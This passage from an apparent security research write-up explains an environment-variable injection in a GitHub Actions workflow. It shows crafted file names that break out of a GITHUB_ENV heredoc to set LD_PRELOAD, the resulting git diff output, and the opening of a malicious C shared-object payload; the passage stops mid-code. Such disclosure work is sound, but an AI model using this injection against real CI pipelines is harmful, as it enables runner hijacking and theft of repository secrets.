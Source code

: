 The `git diff` command extracts the changed file names and saves them in `/tmp/changed-files.txt`,
which subsequently is extracted to the `GITHUB_ENV` global variable, which is persisted across
steps in a composite workflow. It does so via a Bash "heredoc", in this case delimited by the `EOF`
string. So if we could insert an `EOF` ourselves, followed by some controlled content of us, we might be
able to inject additional environment variables, which is a pretty powerful primitive, and even flagged
by GitHub's own GHA CodeQL ruleset. [^4]

And indeed, with the correct repository tree, we can trigger the injection:

```console-out
├── AAA
├── docker
│   └── Dockerfile
├── EOF
├── hijack.py
├── json.py
├── LD_PRELOAD=
│   └── home
│       └── runner
│           └── work
│               └── KONTINUERLIG-msanft
│                   └── KONTINUERLIG-msanft
│                       └── libinject.so
├── libinject.so
├── main.c
├── README.md
└── ZZZ<<EOF
```

Resulting in the following ordering in the inclusion in the heredoc:

```console-out
$ git diff --name-only 00dcde8c33f66d8bacf1512f567d23ceb7b988c2
AAA
EOF
LD_PRELOAD=/home/runner/work/KONTINUERLIG-msanft/KONTINUERLIG-msanft/libinject.so
ZZZ<<EOF
hijack.py
json.py
libinject.so
main.c
```

The `AAA` is just some placeholder content for the initial heredoc, which is then closed by the `EOF`.
Then, our injection part starts. In this case, I use the `LD_PRELOAD` variable to load a malicious
shared object:

```c
// clang -fPIC -shared -o libinject.so main.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

void __attribute__((constructor)) foo() {
  printf("injection!!!\n");
  pid_t pid = fork();
  if (pid == 0) {
    extern char **environ;
    char **new_environ = environ;

```

[^1]: <https://x.com/pspaul95/>
[^2]: <https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request_target>
[^3]: <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>
[^4]: <https://codeql.github.com/codeql-query-help/actions/actions-envvar-injection-critical/>
[^5]: <https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets>
[^6]: <https://fusectore.dev/2021/11/19/github-action-problem-matchers.html>, <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/docs/adrs/0276-problem-matchers.md?plain=1#L23>
[^7]: <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/src/Runner.Worker/ActionCommandManager.cs#L493>
[^8]: <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>